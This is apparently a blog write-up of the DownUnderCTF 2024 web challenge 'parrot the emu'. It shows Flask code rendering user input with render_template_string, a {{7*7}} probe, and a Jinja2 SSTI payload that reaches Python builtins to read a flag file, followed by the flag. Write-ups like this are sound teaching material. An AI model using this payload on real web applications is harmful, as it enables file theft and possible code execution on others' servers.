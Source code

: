 ```yaml
---
title: "parrot the emu"
description: "It is so nice to hear Parrot the Emu talk back"
pubDate: 2024-07-10
ctf: "DownUnderCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-downunder/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/downunderctf2024#parrot-the-emu)

We are given web source and an instance. The website reflects what you type:

![parrottheemu](images/24-downunder/parrottheemu.png)

Looking in the source code is something of interest:
```python
...
    if request.method == 'POST':
        user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
        except Exception as e:
            result = str(e)
...
```

`render_template_string` is generally dangerous with unvalidated user input as it's vulnerable to SSTI, as this is Python, Jinja2 SSTI is quite a good start.

I first tried the payload `{%raw%}{{7*7}}{%endraw%}` and the parrot responds with `49`, perfect!

Now we need to try to read the `flag` file, I try various payloads but find this one works: `{%raw%}{{ get_flashed_messages.__globals__.__builtins__.open("./flag").read() }}{%endraw%}`.

![parrottheemusolve](images/24-downunder/parrottheemu-solve.png)

Flag: `DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`